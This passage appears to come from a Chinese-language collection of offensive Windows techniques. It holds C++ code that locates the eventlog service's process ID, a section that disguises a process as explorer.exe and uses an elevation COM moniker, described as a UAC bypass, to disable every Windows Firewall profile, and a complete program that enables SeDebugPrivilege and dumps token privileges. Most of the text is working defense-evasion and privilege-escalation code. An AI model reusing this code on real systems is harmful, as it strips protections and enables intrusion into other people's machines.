BOOL ret = EnumServicesStatusEx(scHandle, infoLevel, dwServiceType, dwServiceState, lpServices, cbBufSize, &pcbBytesNeeded, &servicesReturned, lpResumeHandle, pszGroupName);
cbBufSize = pcbBytesNeeded;
lpServices = new BYTE[cbBufSize];
if (NULL == lpServices)
{
printf("[!]lpServices = new BYTE[%ld] -> fail(%ld)\n", cbBufSize, GetLastError());
}
else
{
ret = EnumServicesStatusEx(scHandle, infoLevel, dwServiceType, dwServiceState, lpServices, cbBufSize, &pcbBytesNeeded, &servicesReturned, lpResumeHandle, pszGroupName);
LPENUM_SERVICE_STATUS_PROCESS lpServiceStatusProcess = (LPENUM_SERVICE_STATUS_PROCESS)lpServices;
for (DWORD i = 0; i < servicesReturned; i++)
{
_wcslwr_s(lpServiceStatusProcess[i].lpServiceName, wcslen(lpServiceStatusProcess[i].lpServiceName) + 1);
if (wcsstr(lpServiceStatusProcess[i].lpServiceName, L"eventlog") != 0)
{
printf("[+]PID:%ld\n", lpServiceStatusProcess[i].ServiceStatusProcess.dwProcessId);
PID = lpServiceStatusProcess[i].ServiceStatusProcess.dwProcessId;
}
}
delete[] lpServices;
}
CloseServiceHandle(scHandle);
}
return PID;
}0x08 DisableFireWall
关闭防火墙策略
com 越权实现关闭防火墙策略。
主要逻辑：伪装进程身份（将当前进程伪装成explorer.exe ）并禁用Windows防火墙的所有配置文件（Domain、Private、Public）
步骤
- 进程伪装
- 修改当前进程的PEB（Process Environment Block）信息，使其看起来像
explorer.exe。 - 修改
ImagePathName、CommandLine等关键字段，欺骗系统工具（如任务管理器）。
- 修改当前进程的PEB（Process Environment Block）信息，使其看起来像
- 禁用Windows防火墙
- 使用COM接口
INetFwPolicy2关闭所有防火墙配置文件（Domain、Private、Public）。
- 使用COM接口
主要代码
HRESULT hrComInit = S_OK;
HRESULT hr = S_OK;
INetFwPolicy2* pNetFwPolicy2 = NULL;
// Initialize COM.
hrComInit = CoInitializeEx(
0,
COINIT_APARTMENTTHREADED
);
// Ignore RPC_E_CHANGED_MODE; this just means that COM has already been
// initialized with a different mode. Since we don't care what the mode is,
// we'll just use the existing mode.
if (hrComInit != RPC_E_CHANGED_MODE)
{
if (FAILED(hrComInit))
{
printf("CoInitializeEx failed: 0x%08lx\n", hrComInit);
// Release INetFwPolicy2
if (pNetFwPolicy2 != NULL)
{
pNetFwPolicy2->Release();
}
// Uninitialize COM.
if (SUCCEEDED(hrComInit))
{
CoUninitialize();
}
return 0;
}
}
// Retrieve INetFwPolicy2
// hr = WFCOMInitialize(&pNetFwPolicy2);
hr = CoCreateInstance(__uuidof(NetFwPolicy2), NULL, CLSCTX_ALL, IID_PPV_ARGS(&pNetFwPolicy2));
if (FAILED(hr))
{
printf("CoCreateInstance for INetFwPolicy2 failed: 0x%08lx\n", hr);
exit(0);
}
HWND hwnd = GetConsoleWindow();
BIND_OPTS3 bo;
WCHAR wszCLSID[50];
WCHAR wszMonikerName[300];
void** ppv = NULL;
StringFromGUID2(__uuidof(NetFwPolicy2), wszCLSID, sizeof(wszCLSID) / sizeof(wszCLSID[0]));
hr = StringCchPrintf(wszMonikerName, sizeof(wszMonikerName) / sizeof(wszMonikerName[0]), L"Elevation:Administrator!new:%s", wszCLSID);
memset(&bo, 0, sizeof(bo));
bo.cbStruct = sizeof(bo);
bo.hwnd = hwnd;
bo.dwClassContext = CLSCTX_LOCAL_SERVER;
hr = CoGetObject(wszMonikerName, &bo, IID_PPV_ARGS(&pNetFwPolicy2));
// Disable Windows Firewall for the Domain profile
hr = pNetFwPolicy2->put_FirewallEnabled(NET_FW_PROFILE2_DOMAIN, FALSE);
if (FAILED(hr))
{
printf("put_FirewallEnabled failed for Domain: 0x%08lx\n", hr);
// Release INetFwPolicy2
if (pNetFwPolicy2 != NULL)
{
pNetFwPolicy2->Release();
}
// Uninitialize COM.
if (SUCCEEDED(hrComInit))
{
CoUninitialize();
}
return 0;
}
// Disable Windows Firewall for the Private profile
hr = pNetFwPolicy2->put_FirewallEnabled(NET_FW_PROFILE2_PRIVATE, FALSE);
if (FAILED(hr))
{
printf("put_FirewallEnabled failed for Private: 0x%08lx\n", hr);
// Release INetFwPolicy2
if (pNetFwPolicy2 != NULL)
{
pNetFwPolicy2->Release();
}
// Uninitialize COM.
if (SUCCEEDED(hrComInit))
{
CoUninitialize();
}
return 0;
}
// Disable Windows Firewall for the Public profile
hr = pNetFwPolicy2->put_FirewallEnabled(NET_FW_PROFILE2_PUBLIC, FALSE);
if (FAILED(hr))
{
printf("put_FirewallEnabled failed for Public: 0x%08lx\n", hr);
// Release INetFwPolicy2
if (pNetFwPolicy2 != NULL)
{
pNetFwPolicy2->Release();
}
// Uninitialize COM.
if (SUCCEEDED(hrComInit))
{
CoUninitialize();
}
}
return 0;关键点：
INetFwPolicy2：Windows防火墙的COM接口，用于控制防火墙策略。CoGetObject+Elevation:Administrator!new:：尝试以管理员权限提升（UAC绕过）。Elevation:Administrator!new:{E2B3C97F-6AE1-41AC-817A-F6F92166D7DD}put_FirewallEnabled：禁用防火墙的三种配置文件（Domain、Private、Public）。
0x09 EnablePrivilegeandGetTokenInformation
令牌提升
/*
Reference:https://github.com/hatRiot/token-priv
Enable the SeDebugPrivilege of current process and then get the full privileges of current process.
*/
#include <stdio.h>
#include <windows.h>
#include <assert.h>
#pragma comment(lib, "advapi32.lib")
#pragma comment(lib,"user32.lib")
int IsTokenSystem(HANDLE tok)
{
DWORD Size, UserSize, DomainSize;
SID* sid;
SID_NAME_USE SidType;
TCHAR UserName[64], DomainName[64];
TOKEN_USER* User;
Size = 0;
GetTokenInformation(tok, TokenUser, NULL, 0, &Size);
if (!Size)
return 0;
User = (TOKEN_USER*)malloc(Size);
assert(User);
GetTokenInformation(tok, TokenUser, User, Size, &Size);
assert(Size);
Size = GetLengthSid(User->User.Sid);
assert(Size);
sid = (SID*)malloc(Size);
assert(sid);
CopySid(Size, sid, User->User.Sid);
UserSize = (sizeof UserName / sizeof * UserName) - 1;
DomainSize = (sizeof DomainName / sizeof * DomainName) - 1;
LookupAccountSid(NULL, sid, UserName, &UserSize, DomainName, &DomainSize, &SidType);
free(sid);
printf("whoami:\n%S\\%S\n", DomainName, UserName);
if (!_wcsicmp(UserName, L"SYSTEM"))
return 0;
return 1;
}
VOID RetPrivDwordAttributesToStr(DWORD attributes, LPTSTR szAttrbutes)
{
UINT len = 0;
if (attributes & SE_PRIVILEGE_ENABLED)
len += wsprintf(szAttrbutes, TEXT("Enabled"));
if (attributes & SE_PRIVILEGE_ENABLED_BY_DEFAULT)
len += wsprintf(szAttrbutes, TEXT("Enabled by default"));
if (attributes & SE_PRIVILEGE_REMOVED)
len += wsprintf(szAttrbutes, TEXT("Removed"));
if (attributes & SE_PRIVILEGE_USED_FOR_ACCESS)
len += wsprintf(szAttrbutes, TEXT("Used for access"));
if (szAttrbutes[0] == 0)
wsprintf(szAttrbutes, TEXT("Disabled"));
return;
}
int GetTokenPrivilege(HANDLE tok)
{
PTOKEN_PRIVILEGES ppriv = NULL;
DWORD dwRet = 0;
GetTokenInformation(tok, TokenGroups, ppriv, dwRet, &dwRet);
if (!dwRet)
return 0;
ppriv = (PTOKEN_PRIVILEGES)calloc(dwRet, 1);
GetTokenInformation(tok, TokenPrivileges, ppriv, dwRet, &dwRet);
printf("\nwhoami /priv\n");
for (int i = 0; i < ppriv->PrivilegeCount; i++)
{
TCHAR lpszPriv[MAX_PATH] = { 0 };
DWORD dwRet = MAX_PATH;
BOOL n = LookupPrivilegeName(NULL, &(ppriv->Privileges[i].Luid), lpszPriv, &dwRet);
printf("%-50ws", lpszPriv);
TCHAR lpszAttrbutes[1024] = { 0 };
RetPrivDwordAttributesToStr(ppriv->Privileges[i].Attributes, lpszAttrbutes);
printf("%ws\n", lpszAttrbutes);
}
return 1;
}
BOOL EnablePriv(HANDLE hToken, LPCTSTR priv)
{
TOKEN_PRIVILEGES tp;
LUID luid;
if (!LookupPrivilegeValue(NULL, priv, &luid))
{
printf("[!]LookupPrivilegeValue error\n");
return 0;
}
tp.PrivilegeCount = 1;
tp.Privileges[0].Luid = luid;
tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
if (!AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL))
{
printf("[!]AdjustTokenPrivileges error\n");
return 0;
}
IsTokenSystem(hToken);
GetTokenPrivilege(hToken);
return TRUE;
}
int wmain(int argc, WCHAR* argv[])
{
HANDLE hToken;
if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &hToken))
{
printf("[!]OpenProcessToken error\n");
return 0;
}
// EnablePriv(SE_TAKE_OWNERSHIP_NAME);
EnablePriv(hToken, SE_DEBUG_NAME);
return 0;
}